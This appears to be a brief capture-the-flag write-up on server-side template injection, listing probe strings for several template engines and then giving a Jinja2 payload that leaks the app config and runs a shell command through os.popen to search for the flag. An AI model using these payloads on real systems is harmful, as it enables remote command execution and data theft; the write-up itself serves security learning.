

#### Sol

after testing these commands:

**Jinja2 (Python Flask/Django)** : {{ 7**7 }}
 **Freemarker (Java)** : ${7*7}
 **Velocity (Java)** : #set($a = 7*7)${a}
 **Thymeleaf (Java)** : ${7*7}
 **Twig (PHP Symfony)** : {{ 7*7 }}
 **Smarty (PHP)** : {$7*7}
 **Mako (Python)** : <% print 7*7 %>


we had confirmed that the underlying framwork is Jinja2

then we thest these payloads:

`{{ config }}`

it worked.

then we tried:

```
{{ namespace.__init__.__globals__.os.popen('grep picoCTF . -rnw').read() }}
```




Refference:

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md?ref=blog.qz.sg#jinja2---remote-command-execution
